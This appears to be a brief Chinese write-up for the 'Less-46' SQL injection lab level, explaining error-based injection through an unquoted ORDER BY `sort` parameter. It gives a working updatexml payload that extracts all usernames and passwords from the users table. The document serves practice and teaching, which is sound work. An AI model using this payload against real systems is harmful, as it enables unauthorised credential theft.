


# Less-46

使用新的参数`sort`，通过输入`1，2，3`表中出现不同数据，该sql语句是`order by`，`sql`语句参数没有引号且不能使用联合注入，有报错显示，所以我们可以使用`updatexml`进行报错

~~~ cmd
?sort=1 and (updatexml(1,concat(0x5c,(select group_concat(password,'-',username) from users),0x5c),1))
#其中0x5c指的是ASCII码中的\
~~~

